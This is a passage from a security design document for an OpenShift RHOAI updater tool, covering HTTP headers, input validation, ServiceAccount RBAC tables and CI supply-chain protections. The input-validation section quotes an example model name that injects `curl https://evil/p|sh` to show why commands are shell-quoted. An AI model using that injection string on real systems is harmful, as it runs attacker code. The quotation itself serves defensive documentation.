- Response headers (`pkg/middleware/security.go`, `static.go`), on the app's port 8080 (everything that passes oauth-proxy):
  - every response: `Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; base-uri 'none'; form-action 'self'; frame-ancestors 'none'; object-src 'none'` (since 4.0.0; before, without the last four), `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, `Strict-Transport-Security: max-age=63072000; includeSubDomains; preload`, `Referrer-Policy: strict-origin-when-cross-origin`, `Permissions-Policy: camera=(), microphone=(), geolocation=()`, `Pragma: no-cache`;
  - `Cache-Control`: API answers `no-store, no-cache, must-revalidate` (the S3 keys endpoint `no-store`); event streams (`.../stream`) `no-cache`; the frontend's content-hashed files `public, max-age=31536000, immutable`; `index.html` and other unhashed files `no-cache` (revalidated, so a new deploy is picked up). The hashed files and `index.html` hold no user data.
  - The metrics listener (9090: probes, `/api/version`, `/metrics`) sets none of these headers: it serves no browser, and the NetworkPolicy admits only the monitoring namespaces (and the kubelet).
  - oauth-proxy answers `/oauth/*` (sign-in page, start, callback, sign-out, healthz) itself, with its own headers; the app's headers do not apply there.

#### Revoking a sign-in

`oc delete oauthaccesstokens --field-selector clientName=<APP_NAME>-<NAMESPACE>` revokes every sign-in of the install (a stolen cookie, a user who must lose access now). **It is not instant.** Live-checked (ROSA HCP, RHOAI 3.6): after the tokens were deleted the app kept working with that sign-in for about a minute, then answered 401 `session_expired`, and the UI showed **Your session expired** with **Sign in again**. The OpenShift API server itself kept accepting the revoked token for about a minute (its token authentication cache), which is the same for `oc` and the dashboard using that token. Changes stop at once, before the API server's cache ends: the session check ([steps 4 to 6](#authentication-and-authorization-flow)) reads the sign-in's own token object, and a 404 naming that object (`details.kind` `useroauthaccesstokens`, `details.name` the object's name) is refused as `session_expired` ("Your OpenShift sign-in was revoked or has ended"); in the live check a change sent right after the revocation still got past the permission check, which is what this closes. A change already running keeps its token until the API server stops accepting it. Only who a token belongs to is cached by the app itself, for up to a minute per token ([step 3](#authentication-and-authorization-flow)), so pages that only read keep loading for at most that long. Allow about a minute after revoking before relying on it.



### Abuse limits and input validation

- Mutations: one accepted request per user and endpoint per 30 s, taken when the request is accepted. Rejected requests (4xx/5xx, including 409 busy) and dry runs do not use the slot. One cluster operation at a time (409 `cluster_busy`). A 15-minute deadline applies, independent of the browser.
- Mutation bodies are capped at 4096 bytes (`/api/pageview` at 256; the clean-up's list of at most 200 projects at 16 KiB), and the read timeout is 15 s.
- **Clean up** (Environment page, `POST /api/resources/cleanup/stream`) is one operation: one cluster lock and one rate-limit slot for the whole run, the same cluster-admin gate and 15-minute deadline as every mutation, with the user's own token like every change. Each part runs the part's own teardown (MaaS publications first, then pipeline servers, the S3 storage, MLflow, playgrounds, models, the inference gateway, and the MaaS platform last) with its guards, so it deletes only what this tool created, never a storage a pipeline server still uses, never a gateway a model still routes through, and namespace `seaweedfs` only when asked and only when this tool created it.
- **Models** (Environment page, `POST /api/resources/models/stream`) is one operation per Set up or removal, with the same gate, lock, rate limit and 15-minute deadline; the model's wait ends 30 seconds before that deadline. The body is capped at 4096 bytes; the project is validated (DNS-1123) and must be a data science project; the model must be one of the catalog's. Setup checks every object it writes and dry-runs every write before the first real one, so a refusal changes nothing. Project names are validated (DNS-1123, no duplicates) before the lock is used; the first part that does not succeed stops the run.
- **Feature prerequisites** (Environment page): the status reads the DataScienceCluster's `spec.components` / `status.components` management state with the `get`/`list` on `datascienceclusters` that `deploy/template.yaml` already grants (the Components page uses it), and setup refuses on the same reading. No new RBAC.
- Images must match `quay.io/rhoai/` or `registry.redhat.io/rhoai/`. A custom build to install accepts only `quay.io/rhoai/rhoai-fbc-fragment` with a tag and/or digest. PR numbers, DSC names, channels and namespaces are validated before use. The static file server is protected against path traversal.
- `/api/pageview` stores only aggregate counters, with labels limited to known page/feature names. No user identity is stored.
- **Copy-paste commands** (Use it, the sample pipeline, MaaS, Authorino TLS): addresses read from the cluster (a model's `status.url`, a pipeline server's API address from its DSPA status, the MaaS address built from the apps domain or a gateway's hostname) are shown only when they are plain `https` URLs (host, optional port, a path of unreserved characters; no query, user info, quotes, spaces, `$`, backticks or other shell characters: `snippetURL`, since 3.0.0). Whoever can write a model's or a DSPA's status could otherwise put `$(...)` into a command a cluster-admin runs. A refused address is not shown, and the part says why. The UI also single-quotes every address it puts into a command (`shellQuote`; double quotes still expand `$()`), so either check alone keeps a command from running what the cluster wrote. Catalog channel names (the MaaS tab's Connectivity Link and CloudNativePG commands) go into heredocs as quoted YAML scalars and into `oc patch` as a shell-quoted JSON patch (3.0.1): a channel name with a newline could otherwise end the heredoc and run what follows. The same holds for names: the name a model serves (`spec.model.name`, the `"model"` of every request) is chosen by anyone who can edit its project, on any model of a catalog name (not only this tool's), and KServe and vLLM accept any string there. The backend shows it, puts it in commands and calls the model with it only when it is letters, digits and `. _ / : -` (`safeServedName`, 4.0.0); otherwise the model's status leaves it out (`servedNameWithheld`), says why, and its Use it shows no commands. The UI builds every request body with `JSON.stringify` and passes it as one single-quoted word, and puts other names in commands bare only when they are plain names (`shellWord`), so a name such as `x"}'; curl https://evil/p|sh; echo '` stays inert even if the backend's check were missing.

### Local development (`DEV_MODE=true`)

- Used by `dev.sh`. With no mounted SA token, every request runs with your own `oc` token (`DEV_TOKEN`) and **there is no cluster-admin gate**: both the change client and the records client use that token, and the sign-in expiry check is skipped.
- The server binds `127.0.0.1` by default. A non-loopback `BIND_ADDRESS` exits at startup unless `DEV_ALLOW_REMOTE=true` (not recommended: anyone who can reach it acts with your token).
- Requests whose `Host` or `Origin` is not this machine on the API port or `DEV_FRONTEND_PORT` (default 9000) are refused. This blocks DNS rebinding.
- API server TLS is verified, in this order: `KUBE_CA_FILE` if set (an unusable file fails closed), the in-pod SA CA, then the system trust store. Verification is skipped only with `DEV_MODE=true` **and** `DEV_INSECURE_TLS=true`, which logs a warning.
- DEV_MODE cannot weaken an in-cluster pod. The bypass requires that no SA token be mounted.

## ServiceAccount RBAC

`deploy/template.yaml` grants the SA exactly what its own entry points reach. `pkg/cluster/rbac_sa_split_test.go` builds the reference graph of the binary from `main`, leaves out the handlers built with `withMutationAuth` (their client is the user's) and the gitops profile's routes, and derives every API call the rest reaches (reads, probes, admin reads, the background prune job), plus every call through `c.bookkeeping()` (the app's records) and the access reviews the gen-ai status and MLflow samples status make with the SA's token; `rbac_coverage_test.go` fails when the template misses one or grants one no path uses. `TestMutationPathsActWithTheUsersToken` fails when a change can reach the SA's token (`getClusterToken`, `NewClientWithContext`); `TestServiceAccountWritesAreNamedOrItsOwnRecords` fails on an unnamed write outside the app's own ConfigMaps and on any write to Secrets, RBAC, ServiceAccounts, namespaces, workloads, OLM objects, webhooks, CRDs or DataScienceClusters. Cluster-scoped names carry the namespace (`<APP_NAME>-<NAMESPACE>`), so two installs do not collide.

**Namespaced Roles:**

| Namespace | Rules |
|---|---|
| the app's namespace | ConfigMaps: `create`; `get` on `rhoai-nightly-updater-{activity,snapshot,operation}`, `update` activity, `patch` snapshot and operation (the app's records) |
| `kube-system` | Secret `additional-pull-secret`: `get` (status and Quay lookups; the setup writes it with the user's token) |
| `openshift-marketplace` | CatalogSources: `get`; PackageManifests: `list` |
| `openshift-ingress` (`INGRESS_NAMESPACE`, fixed) | Gateway `openshift-ai-inference` and ConfigMap `openshift-ai-inference-options`: `get`. Gateway `maas-default-gateway` and ConfigMap `maas-gateway-options`: `get patch` (the prune job narrows which projects the gateway admits; never create or delete). DNSRecords, AuthPolicies, TokenRateLimitPolicies, RateLimitPolicies: `list`; AuthPolicy `openshift-ai-inference-authn`: `get` |
| `openshift-ingress-operator` (`INGRESS_OPERATOR_NAMESPACE`, fixed) | IngressController `default`: `get` |

**Cluster-wide (ClusterRole).** Reads, and the prune job's named writes.

| What | Verbs | Limited to names? |
|---|---|---|
| Secrets | `get` | only `seaweedfs-s3-credentials`, `minio-secret`, `rhoai-nightly-updater-s3`, `maas-db-config` (ownership checks and status of the Environment page; the S3 keys answer only a cluster-admin) |
| ConfigMaps | `get` | only `odh-upgrade-acks`, `inferenceservice-config` (`gen-ai-aa-custom-model-endpoints` removed in 5.0.0: the Playground status reads with the user's token) |
| Namespaces | `get list` | no |
| Deployments | `get list` | no |
| Services | `get` | no |
| Pods, ReplicaSets, Events, EndpointSlices, Nodes, PVCs | `list` | read-only |
| LokiStacks (`loki.grafana.com`), PersesDashboards (`perses.dev`) | `list` | read-only; the Observability tab's status ([Observability](#observability-usage-logs-and-dashboards)); not PersesDatasources |
| Routes | `get` | `rhods-dashboard`, `mlflow`, `seaweedfs-admin`, `minio-api`, `minio-ui` |
| NetworkPolicies | `get` | `seaweedfs-ingress`, `minio-ingress` |
| Subscriptions | `get`; `list` | `get` only `rhods-operator`, `kuadrant-operator`, `rhcl-operator`, `cloudnative-pg` |
| OperatorGroups, InstallPlans | `list` | read-only |
| ClusterServiceVersions | `get list` | read-only |
| Validating/Mutating webhook configurations, CRDs, DSCInitializations, Platforms, DSPAs, cert-manager Certificates, Gateways, Kuadrants, ImageDigestMirrorSets, ImageTagMirrorSets, ImageContentSourcePolicies | `list` | read-only; CRD `get` only the DSC's |
| DataScienceClusters | `get list` | read-only: the hard reset's `delete` (template revision 7 before 4.0.0) now runs with the user's token |
| `components.platform.opendatahub.io/*`, `services.platform.opendatahub.io/*` (module CRs) | `list` | read-only; the kinds change between releases and are discovered: [the services group](#reading-module-crs-in-the-services-group-400) |
| ClusterRoles, ClusterRoleBindings | `list` | read-only: [which operator cleans up a module](#reading-rbac-to-find-module-operators-400); also ClusterRoleBinding `argocd-manager-role-binding` by field selector ([Argo CD on another cluster](#reading-argo-cd-applications-400)) |
| Argo CD Applications (`argoproj.io`) | `list` | read-only, all of them: [does an Application list the object](#reading-argo-cd-applications-400) |
| RoleBindings | `get`, only `argocd-manager-role-binding` | read-only: [an Argo CD on another cluster](#reading-argo-cd-applications-400) (`argocd cluster add --namespace`) |
| `operator.openshift.io/*` | `get` | only objects named `cluster` |
| ClusterVersion, Console, Infrastructure, Ingress config | `get` | only `version` / `cluster` |
| MLflows | `get` | only `mlflow` |
| GatewayClasses | `get` | only `openshift-ai-inference`, `openshift-default` |
| LLMInferenceServices | `get list` | no (the models that use a gateway, the tool's catalog models) |
| InferenceServices | `list` | no (the models that use a component; `get` removed in 5.0.0) |
| LLMInferenceServiceConfigs | `get` | no (the CPU preset's name is found at run time) |
| OGXServers | `list`; `get` | `get` only `lsd-genai-playground` (the playground's UID; since 5.0.0 read with users' tokens, kept by the coverage scan's over-approximation) |
| CloudNativePG Clusters, Authorinos, AITenants, MaaSTenantConfigs | `get` | only `maas-db`, `authorino`, `models-as-a-service`, `default-tenant` |
| HTTPRoutes | `get` | only the three chat models' `<model>-kserve-route` |
| Groups (`user.openshift.io`) | `get` | no: [the MaaS groups check](#reading-openshift-groups-by-name-400), answered only to cluster-admins |
| MaaSModelRefs, MaaSSubscriptions, MaaSAuthPolicies | `list`; MaaSModelRefs `get delete`; MaaSSubscription and MaaSAuthPolicy `get patch delete` | the writes only on the three chat models' MaaSModelRefs, `rhoai-nightly-updater-subscription` and `rhoai-nightly-updater-access`: [the MaaS prune job](#the-maas-prune-job-400) |

There is no `create` outside the app's own namespace, no write on Secrets, ServiceAccounts, RBAC, namespaces, workloads, OLM objects, webhooks, CRDs or DataScienceClusters, and no cluster-wide `list` or general `get` on Secrets.

### Reading ImageContentSourcePolicies (4.0.0)

The image mirror of `registry.redhat.io/rhoai` can be an ImageContentSourcePolicy as well as an ImageDigestMirrorSet: the Machine Config Operator merges both into the nodes' `registries.conf` (openshift/runtime-utils @7bdb5b9c `pkg/registries/registries.go:165-183`). The status, Update's prerequisite check (both profiles) and Diagnostics read the mirror with the ServiceAccount (`getIDMS`), so it now also lists ImageContentSourcePolicies, only when no ImageDigestMirrorSet has the source. The one-click setup reads them, and ImageTagMirrorSets, with the user's token.

| Rule | What it allows | Worst case if the SA token leaks |
|---|---|---|
| `operator.openshift.io` `imagecontentsourcepolicies`: `list` (`deploy/template.yaml`, `deploy/rbac-gitops.yaml`) | read the cluster's legacy digest mirror rules: source repositories and mirror locations | an attacker learns which registries the cluster mirrors and where to (internal mirror hostnames). The objects hold no credentials; the same kind of information as the ImageDigestMirrorSets and ImageTagMirrorSets the SA already lists |

Kept narrow: `list` only (no `get`, `watch` or any write), one cluster-scoped resource; nothing else of `operator.openshift.io` beyond the existing `get` of objects named `cluster`. It fails closed: an unreadable list is an error (the status shows it, Update refuses), and only a 404 for the collection (the API is not served) counts as no policies. `rbac_coverage_test.go` and `rbac_gitops_test.go` check that the code needs the rule and that both RBAC files grant it. Check: `oc auth can-i list imagecontentsourcepolicies.operator.openshift.io --as=$SA` answers `yes`; `oc auth can-i create imagecontentsourcepolicies.operator.openshift.io --as=$SA` and `oc auth can-i get imagecontentsourcepolicies.operator.openshift.io/x --as=$SA` answer `no`.

### Reading RBAC to find module operators (4.0.0)

Before removing a component (Components page, the hard reset, Diagnostics' disable fix) the tool checks that the operator which removes the module CR's finalizers is running, and refuses when it cannot tell which operator that is. Nothing on the module operators' Deployments names their module (RHOAI 3.6 labels them only `platform.opendatahub.io/part-of=platform`), and the modules change between releases (3.6 added `aigateway` and `mcplifecycleoperator`, which a fixed list of Deployment names did not know, so their removal was refused). Their RBAC names it: each module operator's ClusterRole grants `update` on its module CR and on `<plural>/finalizers` (`pkg/cluster/internal/components/module_operators.go` explains the rule and its source). So the ServiceAccount (both profiles) may `list` ClusterRoles and ClusterRoleBindings.

| Rule | What it allows | Worst case if the SA token leaks |
|---|---|---|
| ClusterRoles, ClusterRoleBindings: `list` | read who may do what cluster-wide | an attacker learns the cluster's permission layout: which ServiceAccounts, users and groups hold which rules, so which tokens are worth stealing. RBAC objects hold no credentials and grant nothing to the reader, so it cannot act on what it learns without another token |

Kept narrow: `list` only (no `get`, `watch` or any write; the two lists are read once per check or per change and cached for it), cluster-scoped objects only. Roles and RoleBindings are not read for this (only RoleBinding `argocd-manager-role-binding`, by name, [for Argo CD](#reading-argo-cd-applications-400)): module CRs are cluster-scoped, and a RoleBinding grants only within its namespace, so it cannot let an operator update them. A `resourceNames` limit is not possible, as the role and binding names change with each module and release.

The rule fails closed: a read error, no matching Deployment, several equally specific ones, or a grant that names no kind (`*` resources, as in `cluster-admin`, or a binding to a group of ServiceAccounts) leaves the operator unknown, and the removal is refused with the same message as before.

Install a different build reads the same lists, once per install and only when a module CR has been deleting for 10 minutes, to decide whether that CR's finalizer may be stripped (RUNBOOK §11.4). It strips one only when the ServiceAccounts the RBAC names have no Deployment left; an unknown operator or a read error leaves the finalizer. The lists add no new permission.

Dashboard Dev reads the same lists to find the Deployment it pauses (the dashboard module's operator; `pkg/cluster/internal/dashdev/dashboard_operator_discovery.go`), and the RHOAI namespaces come from the DSCInitialization (`list`, already granted). No rule is added: status reads (the page and the banner) use the ServiceAccount and reuse a discovery for 30 seconds; deploy and revert discover again with the signed-in user's token, so that user needs `list` on ClusterRoles and ClusterRoleBindings besides the Deployment patches Dashboard Dev already needs (cluster-admins have both). Without them the change is refused and nothing is patched: an unknown operator never selects the legacy flow.

```bash
oc auth can-i list clusterroles.rbac.authorization.k8s.io --as=$SA         # yes
oc auth can-i list clusterrolebindings.rbac.authorization.k8s.io --as=$SA  # yes
oc auth can-i get clusterroles.rbac.authorization.k8s.io/admin --as=$SA    # no
oc auth can-i list rolebindings.rbac.authorization.k8s.io -A --as=$SA      # no
oc auth can-i update clusterroles.rbac.authorization.k8s.io --as=$SA       # no
```

### Reading module CRs in the services group (4.0.0)

RHOAI 3.6 serves the `databaseservice` module's CR in `services.platform.opendatahub.io`, not in `components.platform.opendatahub.io` (rhods-operator rhoai-3.6 `pkg/cluster/gvk/gvk.go`; `pkg/cluster/internal/components/component_cleanup.go` cites the sources). So every check that looks at module CRs reads both groups: the stuck-deletion check, Diagnostics' apply-failure and leftover scans, the removal checks and the hard reset's teardown wait. The status and Diagnostics read them with the ServiceAccount, changes with the user's token. Without the rule the `databaseservice` module was invisible to those checks, and a hard reset was refused whenever it was on. The existing `list` on the components group's kinds now also covers the services group, in both profiles (`deploy/template.yaml`, `deploy/rbac-gitops.yaml` and their chart copies).

| Rule | What it allows | Worst case if the SA token leaks |
|---|---|---|
| `services.platform.opendatahub.io` `*`: `list`, cluster-wide (in the components group's rule) | list every kind of the group: DatabaseService and Monitoring (module CRs), and Auth and GatewayConfig, which the RHOAI operator owns and reconciles itself | read those cluster-scoped platform settings: the modules' specs and status, the groups Auth names, the gateway's domain and the names of its certificate Secrets. None of them holds Secret data |

Kept narrow: `list` only (no `get`, `watch` or any write). `resources: ["*"]` because the group's kinds are discovered and change between releases, as the components group's do; `resourceNames` cannot help, as the kinds are unknown. A kind that is not a module (Auth, GatewayConfig) has no module operator the tool can identify, so a removal that would depend on it is refused (fail closed), and so is one when the list fails.

```bash
oc auth can-i list databaseservices.services.platform.opendatahub.io --as=$SA       # yes
oc auth can-i list gatewayconfigs.services.platform.opendatahub.io --as=$SA         # yes
oc auth can-i get databaseservices.services.platform.opendatahub.io/x --as=$SA      # no
oc auth can-i watch databaseservices.services.platform.opendatahub.io --as=$SA      # no
oc auth can-i patch databaseservices.services.platform.opendatahub.io --as=$SA      # no
oc auth can-i delete gatewayconfigs.services.platform.opendatahub.io --as=$SA       # no
```

Expected answers from the template; not checked live (no cluster access during this change). The same lines answer the same with the gitops profile's ServiceAccount.

### Reading Argo CD Applications (4.0.0)

An Argo CD Application that manages the nightly catalog, the RHOAI Subscription, the DataScienceCluster or an operator Subscription the tool changes switches actions off (Argo CD would undo them). Argo CD's marks on an object (the `argocd.argoproj.io/tracking-id` annotation, or under label tracking, OpenShift GitOps' default up to 1.18, only `app.kubernetes.io/instance`) neither prove nor rule that out, so the tool lists every Application and looks for the object in each one's `status.resources` ([RUNBOOK §13](RUNBOOK.md#13-clusters-managed-by-argo-cd); `pkg/cluster/internal/argo/argocd.go`). The ServiceAccount (both profiles) reads it for the status pages, for non-admins too; changes read it with the user's token (the gitops profile's Update with the ServiceAccount), fresh for every check.

| Rule | What it allows | Worst case if the SA token leaks |
|---|---|---|
| Applications (`argoproj.io`): `list`, cluster-wide | read every Argo CD Application: its spec (source repository URLs, revisions, paths, Helm value files, inline `values`/`valuesObject`, parameters, plugin `env`, Kustomize settings, destination cluster and namespace, project, sync policy) and status (synced revision, resource list with health, images, conditions and operation messages) | an attacker learns where the cluster's configuration comes from (repository URLs, which may reveal private repository names and hosts), the other clusters Argo CD deploys to, and whatever an admin wrote inline into Helm values or plugin `env`. Application objects have no credential field: repository and cluster credentials live in Secrets labelled `argocd.argoproj.io/secret-type` in Argo CD's namespace, which the SA cannot read (no `list` or general `get` on Secrets). Inline values are as readable as the Git repository they come from, and Argo CD's docs advise against putting secrets there. Nothing can be changed: no `get` on other Argo CD kinds, no write |
| ClusterRoleBindings: `list` (already granted, [above](#reading-rbac-to-find-module-operators-400)) | `?fieldSelector=metadata.name=argocd-manager-role-binding` | none added |
| RoleBindings: `get` on `argocd-manager-role-binding` only, in any namespace (both profiles; new in 4.0.0's last revision) | read the RoleBinding `argocd cluster add --namespace` makes (Argo CD `util/clusterauth/clusterauth.go`, `InstallClusterManagerRBAC`), in `redhat-ods-operator`, `openshift-marketplace`, RHOAI's applications namespace and the checked object's namespace: whether an Argo CD on another cluster may manage them | learn, per namespace, whether such a binding exists and whom it binds (the `argocd-manager` ServiceAccount, by default in `kube-system`). A RoleBinding holds no credential; any other RoleBinding stays unreadable (no `list`, no other name). A cluster-scoped grant because the applications namespace and the objects' namespaces are found at run time; `resourceNames` limits it to the one name |
| Discovery of `argoproj.io/v1alpha1` and `work.open-cluster-management.io/v1` | which APIs the cluster serves | none: every authenticated user may (`system:discovery`) |

Why nothing narrower works: the annotation names `<name>` for an Application in Argo CD's own namespace, which can be any namespace (`openshift-gitops` for OpenShift GitOps' default instance, another for a second instance or an upstream install), or `<namespace>_<name>` for one elsewhere ("apps in any namespace"). Both need a cluster-wide grant, and `resourceNames` cannot be used: the names come from the cluster. The rejected alternative, `get` on Applications plus `list` on ArgoCD instances (`argoproj.io` `argocds`) to find Argo CD's namespaces, needs two rules instead of one, misses an upstream Argo CD (no ArgoCD resource, so it would fail closed there forever), and reads ArgoCD instance specs, which carry SSO and RBAC configuration (an inline OIDC config can hold a client secret). The code lists them all, without a field selector: whether an Application manages the object is Argo CD's `status.resources`, not the name a mark gives (a mark can be missing, left over, or name another application than the one that now lists the object), so every Application must be read; the rule allowed that before too, as RBAC does not limit a `list` by its field selector. No `get` and no `watch`: the code only lists, once per operation check, and for the status pages at most once per 30 seconds (a status read reuses the last successful list for that long, and concurrent ones share one request; `pkg/cluster` `readArgoApplications`). A failed list is not reused, and no change or refusal uses the reused list.

The check fails closed: a read error or a 403 (an install from before 4.0.0 whose template lacks the rule; a non-admin user's token during a change) keeps every object managed, marked or not, as does, for a marked object, an Application its mark names that Argo CD has not compared, or a sign of an Argo CD on another cluster; the actions stay off with the reason.

```bash
oc auth can-i list applications.argoproj.io -A --as=$SA                          # yes
oc auth can-i get applications.argoproj.io/x -n openshift-gitops --as=$SA        # no
oc auth can-i watch applications.argoproj.io -A --as=$SA                         # no
oc auth can-i patch applications.argoproj.io -A --as=$SA                         # no
oc auth can-i list appprojects.argoproj.io -A --as=$SA                           # no
oc auth can-i list argocds.argoproj.io -A --as=$SA                               # no
oc auth can-i list secrets -n openshift-gitops --as=$SA                          # no
oc auth can-i get rolebindings.rbac.authorization.k8s.io/argocd-manager-role-binding -n redhat-ods-operator --as=$SA  # yes
oc auth can-i get rolebindings.rbac.authorization.k8s.io/admin -n redhat-ods-operator --as=$SA                        # no
oc auth can-i list rolebindings.rbac.authorization.k8s.io -A --as=$SA                                              # no
```

### Reading OpenShift Groups by name (4.0.0)

The MaaS Publish dialog warns when a group it names has no OpenShift Group (`GET /api/resources/maas/groups?name=...`, at most 20 names; `pkg/cluster` `CheckMaaSGroups`). It is an admin read (`withAdminRead`): the user's token passes the cluster-admin gate, then the ServiceAccount gets each Group by its name, so only a cluster-admin, who may read groups anyway, gets an answer ([Models as a Service](#models-as-a-service)). The MaaS status (any signed-in user) makes the same check for the groups the tool's own MaaSSubscription names, and shows only whether each exists: the names are already in that subscription, never the members. Full profile only; the gitops profile refuses the MaaS routes.

| Rule | What it allows | Worst case if the SA token leaks |
|---|---|---|
| Groups (`user.openshift.io`): `get`, cluster-scoped | read a Group whose name is known: whether it exists (the code keeps only that) | read the members (user names) of a group whose name the attacker knows or guesses. Groups cannot be enumerated (no `list`), a Group holds no credential, and nothing can be changed |

Why nothing narrower works: the names are the ones the user types, so `resourceNames` cannot hold them. A 403 or 404 is only a warning (groups from an external identity provider have no Group object), never a refusal of Publish.

```bash
oc auth can-i get groups.user.openshift.io/ml-team --as=$SA       # yes
oc auth can-i list groups.user.openshift.io --as=$SA              # no
oc auth can-i watch groups.user.openshift.io --as=$SA             # no
oc auth can-i patch groups.user.openshift.io/ml-team --as=$SA     # no
```

### The MaaS prune job (4.0.0)

The background job (`pkg/api` `StartMaaSPruneJob`, every 5 minutes, and at most once a minute when a MaaS status read finds a publication that is gone (5.0.0), under the cluster lock and lease, off in the gitops profile) drops the publications whose project or model is gone, so a project made again with the same name cannot attach routes to the MaaS gateway. The gateway's list of projects is those of the tool's MaaSModelRefs on the cluster, not of its record (5.0.0). The same run then forgets the entries of the models, pipeline server and playground records whose project no longer exists (its own ConfigMap, the existing grant; namespaces `get`, already granted). It runs with the SA because no user is there. Since 4.0.0 it only updates or deletes existing objects (`updateToolObject`: the ownership check, field-ownership upgrade and `resourceVersion` guard of every tool write, a server-side apply sent as a PATCH, never a create):

| Rule | What it allows | Worst case if the SA token leaks |
|---|---|---|
| MaaSModelRefs `get delete` on the three chat models' names (any namespace) | delete the tool's reference of a gone publication, by UID | unpublish a model of one of those names from MaaS in any project |
| MaaSSubscription `rhoai-nightly-updater-subscription`, MaaSAuthPolicy `rhoai-nightly-updater-access`: `get patch delete` | drop the gone publications from the tool's subscription and access policy, or delete them when none is left | change who may call the tool's published models and their limits, or remove them |
| Gateway `maas-default-gateway`, ConfigMap `maas-gateway-options` (`openshift-ingress`): `get patch` | the gateway admits routes only from the projects still published | **widen `allowedRoutes`** (for example `from: All`), which is the route hijack the job exists to prevent: any project editor could then attach a route and receive callers' tokens. This is the most sensitive write left. Options to remove it: drop the background job (prune still runs at the start of every MaaS, Models and Clean up operation, with the user's token), or admit routes by a namespace label so a re-created project never matches (a decision for the maintainers) |

Check on a cluster (replace `<ns>`; by default the ServiceAccount is `rhoai-nightly-updater`):

```bash
SA=system:serviceaccount:<ns>:rhoai-nightly-updater
oc auth can-i create deployments -A --as=$SA                                          # no
oc auth can-i create secrets -A --as=$SA                                              # no
oc auth can-i create pods -A --as=$SA                                                 # no
oc auth can-i create rolebindings -A --as=$SA                                         # no
oc auth can-i delete datascienceclusters.datasciencecluster.opendatahub.io -A --as=$SA  # no
oc auth can-i patch subscriptions.operators.coreos.com -n redhat-ods-operator --as=$SA  # no
oc auth can-i patch secret/additional-pull-secret -n kube-system --as=$SA             # no
oc auth can-i get secret/additional-pull-secret -n kube-system --as=$SA               # yes
oc auth can-i list pods -A --as=$SA                                                   # yes
oc auth can-i create oauthclients.oauth.openshift.io --as=$SA                         # no
oc auth can-i patch gateway/maas-default-gateway -n openshift-ingress --as=$SA        # yes (the prune job)
oc auth can-i create configmaps -n <ns> --as=$SA                                      # yes (its records)
oc auth can-i create configmaps -n openshift-ingress --as=$SA                         # no
```

## CI and release supply chain

### Where the updater's image comes from (trust root)

Every install runs `quay.io/juntao_wang/rhoai-nightly-updater` (the `IMAGE` default), pinned by digest at install time. Whoever can push to that repository decides what code runs with the ServiceAccount above and with the token of every user who signs in (every user RHOAI lets in since 5.0.0, not only cluster-admins), on every cluster that installs or upgrades from it. That repository is in a **personal** Quay namespace (`juntao_wang`), so its owner's Quay account is part of the trust root; moving it to a team organisation is described in [CONTRIBUTING: Moving the image repository](CONTRIBUTING.md#moving-the-image-repository).

| Tag | Written by | With | What protects it |
|---|---|---|---|
| `:vX.Y.Z` | GitLab `release-publish`, in a pipeline of a `vX.Y.Z` tag | `QUAY_USER`/`QUAY_TOKEN` | Protected `v*` tags (Maintainers create them), protected `QUAY_*` variables (only protected refs' pipelines get them), the release guard; `release.sh publish` refuses an existing `:vX.Y.Z` from another commit. Not Quay tag immutability: Quay offers it in organisations only, not in the personal namespace `juntao_wang` (quay-docs `modules/immutable-tag-overview.adoc`) |
| `:vX.Y.Z-rc.N` (`-alpha.N`, `-beta.N`; since 5.0.0) | GitLab `release-publish`, in a pipeline of that pre-release tag, which may be on an `integ/*` branch | `QUAY_USER`/`QUAY_TOKEN` | As `:vX.Y.Z`. The tag pipeline runs the `.gitlab-ci.yml` of the tagged commit with the push token, so a Maintainer tagging an `integ/*` commit vouches for that branch's CI file as for `main`'s |
| `:vN`, `:latest` | `release-publish` (same major), `promote-latest` (manual, across majors) | `QUAY_USER`/`QUAY_TOKEN` | As above; they move only to a release this pipeline published, never to a pre-release |
| `:main`, `:<8-char commit>` | GitLab `publish-main`, on `main` only | `QUAY_USER`/`QUAY_TOKEN` | Protected `main`; since 4.0.0 `:main` is always the pipeline's own image, and a commit tag that is not (a workstation push, a rebuild) stops the job |
| `:dev-<commit>`, test tags | `make push` on a workstation | the developer's own `podman login` | Nothing beyond the developer's Quay rights; `make push` refuses a tree with uncommitted changes and never writes the tags above. Never install them on a shared cluster |
| `$BRANCH_IMAGE:<branch>` (another repository) | GitLab `build-branch`, manual, any branch | `QUAY_BRANCH_USER`/`QUAY_BRANCH_TOKEN` | A robot account limited to that repository; it cannot write `IMAGE` |

The image build, which runs the Containerfile's `RUN` steps (npm and Go dependency installs), never logs in with `QUAY_USER`/`QUAY_TOKEN` (since 4.0.0): the push token is used only by the crane jobs on protected refs. Being protected variables, until their environment scope is set (below) they are in the environment of every job of a `main` or release-tag pipeline, the image and test jobs included. Since 4.0.0 the build is buildah's (chroot isolation). Its `RUN` steps have buildah's default capabilities (no `CAP_SYS_PTRACE`) and share the job's PID namespace: `/proc` lists the job's processes, and the kernel's ptrace access check refuses reading their `environ`; the job's registry logins are in a file outside the chroot. On a privileged runner, `/dev` in a `RUN` step also holds the host's block devices, and the step can read them (tested in rootful Podman with `--privileged`, 2026-11-19: a `RUN` step read the VM's `/dev/vda`). Whether this project's runner is privileged is not visible to it ([CONTRIBUTING: Which runner builds the image](CONTRIBUTING.md#automatic-image-publishing)). So the build's isolation is not what keeps the push token from the build: the environment scope is, which keeps `QUAY_*` out of the build job's environment entirely. kaniko's `RUN` steps, run in the job container itself, could read the environments and the logins. The test jobs' `npm ci` runs the packages' install scripts in the job itself, with the job's environment. The crane jobs declare the GitLab environment `quay-publish` (`environment: {name: quay-publish, action: access}`, no deployment recorded) and the Renovate job `renovate`: with `QUAY_USER`/`QUAY_TOKEN` given the **Environment scope** `quay-publish` (and `RENOVATE_TOKEN`/`GITHUB_COM_TOKEN` the scope `renovate`) in the project's CI/CD variables, no other job receives them. Set the scope only after 4.0.0 is merged and its first `publish-main` has pushed (before 4.0.0 the crane jobs declare no environment and would get no `QUAY_*`), then check that the next `publish-main` pushes, not just logs in (`crane auth login` only writes a file), and release from no commit before 4.0.0 after that ([CONTRIBUTING: GitLab and Quay settings](CONTRIBUTING.md#gitlab-and-quay-settings)). The GitLab and Quay settings this relies on (protected and masked variables, protected `v*` tags, a robot account; tag immutability only once the repository is in a Quay organisation) are set by hand: [CONTRIBUTING: GitLab and Quay settings](CONTRIBUTING.md#gitlab-and-quay-settings). The install checks: `install.sh` and `make deploy`/`upgrade` resolve the tag to a digest once and apply `IMAGE@sha256:...`, and check that the image's revision label names a 